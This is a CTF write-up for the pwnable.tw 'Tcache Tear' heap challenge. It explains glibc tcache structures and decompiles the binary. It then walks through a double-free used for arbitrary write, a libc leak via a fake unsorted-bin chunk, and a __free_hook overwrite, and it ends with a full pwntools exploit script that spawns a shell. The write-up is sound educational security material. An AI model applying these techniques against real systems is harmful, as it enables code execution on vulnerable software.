

+++
title = "pwnable.tw - Tcache Tear"
date = 2020-02-23T07:19:49.665Z
updated = 2020-03-02T18:52:31.838Z
aliases = ["/posts/5e52279566a2e1088c0a3b1d-pwnabletw-tcache-tear"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'heap-exploitation', 'pwntools', 'double-free']
categories = ["ctf-writeups"]
+++

# Challenge
>Make tcache great again !
>
>`nc chall.pwnable.tw 10207`
>
>[tcache_tear](https://pwnable.tw/static/chall/tcache_tear)
>
>[libc.so](https://pwnable.tw/static/libc/libc-18292bd12d37bfaf58e8dded9db7f1f5da1192cb.so)

# Background

Per-thread cache (tcache) is an optimization enabled in versions of `libc` after 2.26. To increase heap performance, 
security checks are limited within the tcache implementation. Tcache is implemented using two important internal structures:

<!-- more -->


## [tcache_perthread_struct](https://github.com/bminor/glibc/blob/release/2.27/master/malloc/malloc.c#L2916)
```c
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

There is maximum number of entries and bins within the tcache that are defined at compile time.

## [tcache_entry](https://github.com/bminor/glibc/blob/release/2.27/master/malloc/malloc.c#L2904)

```#c
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
```
This structure is placed within the user area of a chunk when it is freed, i.e. it is placed at the address returned by `malloc`. This has some security implications.


# Behind the Scenes: tcache

The below diagram depicts normal operation of tcache with the given initial conditions.

svg(path="5e5d5509c800e40a7578f781.svg")

# Reversing
First, we have to reverse the binary, which isn't too difficult with Ghidra.

```#c
void main(void)

{
  longlong input;
  uint i;
  
  set_alarm();
  printf("Name:");
  read(buffer,0x20);
  i = 0;
  do {
    while( true ) {
      while( true ) {
        print_menu();
        input = read_ll();
        if (input != 2) break;
        if (i < 8) {
          free(malloced);
          i = i + 1;
        }
      }
      if (2 < input) break;
      if (input == 1) {
        malloc_m();
      }
      else {
LAB_00400c75:
        puts("Invalid choice");
      }
    }
    if (input != 3) {
      if (input == 4) {
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      goto LAB_00400c75;
    }
    print_buffer();
  } while( true );
}
```

```#c
void malloc_m(void)

{
  ulong size;
  
  printf("Size:");
  size = read_ll();
  if (size < 0x100) {
    malloced = malloc(size);
    printf("Data:");
    read((char *)malloced,(int)size - 0x10);
    puts("Done !");
  }
  return;
}
```

The binary reads `0x20` bytes into a global buffer. Then, it displays a menu:




We are able to `malloc` arbitrary sizes (under 0x100) and `free` the last allocated chunk (up to 8 times).

# Attacks

## Circular List

The given tcache implementation has no checks to detect double frees. Consider the following initial state:

svg(path="5e5d5542c800e40a7578f783.svg")

If we call `free(0x603260)` twice, we add the `tcache_entry` to the free list again, which results in a circular list:

svg(path="5e5d5552c800e40a7578f785.svg")

If we call `malloc` now with the same size as the double freed chunk, we will receive that chunk again. If we are able 
to write in the chunk, we can overwrite the `next` pointer because libc does not expect the chunk to be in use. Then, 
`malloc` will return the written address + 0x10 due to the chunk header.

## Achieving Arbitrary Write

We can abuse this double free to force malloc to return an arbitrary pointer to any memory location. Because the binary 
allows us to write to the location returned by malloc, we have arbitrary write:

svg(path="5e5d5571c800e40a7578f787.svg")

## Leaking libc

Even with the arbitrary write, we don't have anything to write to. Leaking libc will allow us to overwrite `__free_hook` 
or `__malloc_hook` with a call to system. 

The internal representation of a free `chunk` is something similar to:

svg(path="5e5d558bc800e40a7578f789.svg")

Unsorted bins are a circularly linked list. This means that in an unsorted bin with a single chunk, the chunk will have 
its `fwd` and `bck` pointers set to the address of the unsorted bin. If we are able to read either the `fwd` or `bck` 
pointer, we have an address with a known offset from libc.

## Crafting Chunks

Luckily, we have the `name` buffer and can print its contents. If we create a fake chunk of unsorted bin size and place 
it in the name buffer, we can leak libc. 

Unfortunately, there are some [security checks](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks.html):
- "Check whether next chunk's (by memory) previous in use bit is marked"
- "Check whether size of next chunk is within the minimum and maximum size (av->system_mem)"
- "If the chunk is not within the size range of fastbin and isn't mmapped, check that it is not the same as the top chunk"

To bypass these checks we can create another chunk that is positioned immediately after the first chunk. The comments in 
the solution script explain this further.


## Getting a Shell

Now that we have the libc base address, we can get the address of `__free_hook`. This is a function pointer that is 
called whenever free is called; the address of the chunk being freed is passed as a parameter. Conveniently, this 
function signature matches `system(char* cmd)`. 

Now, if we call `malloc("/bin/sh\x00")` and then free the returned value, a shell is created.

# Solution
```python
from pwn import *

context.terminal = '/bin/sh'

r = remote("chall.pwnable.tw", 10207)


elf = ELF('./tcache_tear')
libc = ELF('./libc.so.6')

def malloc(size, data):
	global malloc_counter
	malloc_counter += 1

	r.recvuntil(' :')
	r.send('1')
	r.recvuntil('Size:')
	r.send(str(size))
	r.recvuntil('Data:')
	r.send(data)
	
	info("[Malloc %d] Allocated chunk [size: %d, data: %s]" % (malloc_counter, size, data))

free_counter = 0
malloc_counter = 0

def free():
	global free_counter
	free_counter += 1
	r.recvuntil(' :')
	r.send('2')
	info("  [Free {n}] Freed last allocated chunk".format(n=free_counter))


def mem_write(address, value, s):
	info("[Mem Write ] Writing %s to %s" % (value, hex(address)))
	malloc(s, "anything")
	free()
	free()
	malloc(s, p64(address))
	malloc(s, p64(address))
	malloc(s, value)

def get_info():
	r.recvuntil(' :')
	r.send('3')
	r.recvuntil(' :')
	return r.recv(0x20)

print(elf.got)
print(elf.symbols)

r.recvuntil('Name:')
r.send('anything')


mem_write(0x602550, 
			p64(0) + 	# Previous Size
			p64(0x21) +	# Chunk Size (A=0, M=0, P=1)
			p64(0) + 	# Forward Pointer
			p64(0) + 	# Backward Pointer
			p64(0) + 	# Empty Space
			p64(0x21),	# Next Previous Size
		0x70)

mem_write(0x602050,
			p64(0) +	# 0x602050		Previous Size 
			p64(0x501) +	# 0x602058		Chunk Size (A=0, M=0, P=1)
			p64(0) +	# 0x602060[name_buffer]	Forward Pointer
			p64(0) +	# 0x602068		Backward Pointer
			p64(0)*3 +	# 0x602070		Empty Space
			p64(0x602060),	# 0x602088[malloced] 	Overwrite the last malloced value
		0x60)

# Next free will be free(0x602060) because we overwrote the last malloced value.

# Note that we need the free to be 0x602060 because free expects the user region of the chunk,
# not the start of the chunk

free()  # free(0x602060)

# This free will overwrite the forward and backward pointer. Since this chunk is the only chunk 
# stored in an unsorted bin, the fwd and bck pointers will point to the location of the bin within
# libc. This location will have a constant offset with libc base.

LEAKED_CHUNK_OFFSET = 0x3ebca0

leaked_chunk_addr = u64(get_info()[:8]) # Leaked address of malloc chunk

LIBC_BASE = leaked_chunk_addr - LEAKED_CHUNK_OFFSET
libc.address = LIBC_BASE

info("Leaked chunk at " + hex(leaked_chunk_addr))
info("Found libc base: " + hex(LIBC_BASE))
info("Found __free_hook address: " + hex(libc.symbols['__free_hook']))

mem_write(libc.symbols['__free_hook'] , p64(libc.symbols['system']), 0x50)
malloc(0x50, "/bin/sh\x00")

free()

r.interactive()
```


# Further Reading
These are some resources that I found helpful when solving this challenge.

1. [https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)
2. [https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c)
3. [https://heap-exploitation.dhavalkapil.com/](https://heap-exploitation.dhavalkapil.com/)
